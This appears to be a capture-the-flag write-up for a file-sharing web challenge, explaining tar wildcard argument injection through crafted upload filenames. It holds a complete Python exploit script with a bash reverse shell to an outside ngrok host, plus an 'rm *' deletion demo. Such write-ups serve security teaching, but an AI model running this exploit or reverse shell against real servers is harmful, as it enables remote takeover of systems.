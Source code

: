 # Enterprice File Sharing

## Description

> For security reasons we only use enterprice grade cloud storage.

{% file src="../../.gitbook/assets/EFS.tar.gz" %}

## Solution

### Code Review

This, for the most part, seems like a standard file hosting site. Let's take a look at the validation.

First, uploaded files must have one of the allowed extensions.

```python
# We only allow files for serious business use-cases
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'doc', 'docx', 'xls', 'xlsx'}


def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

We also see that steps have been taken to normalize the file paths, to prevent directory traversal attacks using `../`.

```python
def normalize_file(filename):
    return filename.replace("..", "_")

...

@app.route('/upload', methods=["POST"])
def upload():
    if "ID" not in session:
        return redirect("/")

    if 'file' not in request.files:
        flash('No file part')
        return redirect("/")
    file = request.files['file']

    if file.filename == '':
        flash('No file selected')
        return redirect(request.url)

    if file and allowed_file(file.filename):
        f_content = file.stream.read()
        if len(f_content) > 1024:
            flash("Your file is too big! Buy premium to upload bigger files!")
            return redirect('/')
        filename = normalize_file(file.filename)
        with open(os.path.join(SESS_BASE_DIR, session["ID"], filename), "wb") as f:
            f.write(f_content)
            print(os.path.join(SESS_BASE_DIR, session["ID"], filename))
        return redirect("/")
    else:
        flash("Invalid file type submitted!")
        return redirect('/')

    return redirect("/")
```

What seems out of the ordinary, though, is the use of `os.system()` to execute a `tar` command when the user requests to download all uploaded files. Surely there's a library for that!

```python
@app.route('/download_all')
def download_all():
    if "ID" not in session:
        return redirect("/")

    sess_id = session["ID"]
    sess_dir = os.path.join(SESS_BASE_DIR, sess_id)

    res = os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *")
    if res != 0:
        flash("Something went wrong.")
        return redirect("/")
    return send_file(f"/tmp/{sess_id}.tgz", attachment_filename=f"{sess_id}.tgz")
```

### Wildcard Injection

I decided to pay closer attention to the system command: `cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *`.

A bit of research led me to a few very interesting papers, one of which was [this](https://www.exploit-db.com/papers/33930). Apparently, this is a class of Unix vulnerabilities where wildcards in commands can be abused to inject arguments!

For instance, if you have a file named `-rf`, and you execute `rm *`, the wildcard gets substituted with `-rf`, which is interpreted as a command line argument!

```
[root@defensecode public]# ls -al
total 20
drwxrwxr-x.  5 leon   leon   4096 Oct 28 17:04 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR3
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file3.txt
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
[root@defensecode public]# rm *
[root@defensecode public]# ls -al
total 8
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:05 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
```

Now, how can we abuse this in our use case? In `tar`, there is a `--checkpoint-action` option that will specify which program will be executed when a "checkpoint" is reached.

A common payload to exploit this would be two files:

* `--checkpoint-action=exec=sh shell.sh`
* `--checkpoint=1`

Now, the first file and the script are no problem - we can use `--checkpoint-action=exec=sh shell.txt` to perform argument pollution, which works because this ends with `.txt`.

We cannot use `checkpoint=1` , though, because this won’t pass the extension check.

Looking a bit more into the Tar manual, I saw that the default checkpoint number is 10, which means that the checkpoint action is performed every 10 records.

![](<../../.gitbook/assets/image (80) (1).png>)

But how big is each record? Apparently, it's 20 512-byte blocks.

![](<../../.gitbook/assets/image (82) (1).png>)

So if we upload enough bytes, our tar archive will eventually exceed 10 records \* 20 blocks \* 512 bytes = 102400 bytes. Once that happens, we would have 10 records within the tar archive and the checkpoint action will be executed.

```python
import requests
import os

s = requests.session()

s.get("http://efs.rumble.host/")

with open("shell.txt", 'w') as f:
    f.write("bash -c \"bash -i >& /dev/tcp/6.tcp.ngrok.io/12843 0>&1\"")

with open("--checkpoint-action=exec=sh shell.txt", "w") as f:
    f.write("")

s.post("http://efs.rumble.host/upload",
    files = {"file": open("shell.txt", 'rb')}
)

s.post("http://efs.rumble.host/upload",
    files = {"file": open("--checkpoint-action=exec=sh shell.txt", 'rb')}
)

# Default record size for tar = 512 bytes * 20 = 10240 bytes
# Default checkpoint is 10 records
curr_bytes = 0
filename = 'a'

while curr_bytes < 10240 * 10:

    with open(filename + ".txt", 'wb') as f:
        f.write(os.urandom(1024))

    r = s.post("http://efs.rumble.host/upload",
        files = {"file": open(filename + ".txt", 'rb')}
    )

    print("Uploaded", filename + ".txt")
    filename += 'a'
    
    os.system("tar czf test.tgz a*.txt")
    with open("test.tgz", 'rb') as f:
        curr_bytes = len(f.read())
        print(f"Currently at {curr_bytes} bytes")

s.get("http://efs.rumble.host/download_all")
print(s.cookies.get_dict())
```

Once we request `/download_all` and the `tar` command is run, we get a shell.

```
gunicorn@8d66a32a984a:/$ cat flag.txt
cat flag.txt
CSR{shellscanbeannoying_greetsfromabudhabikek}
gunicorn@8d66a32a984a:/$
```
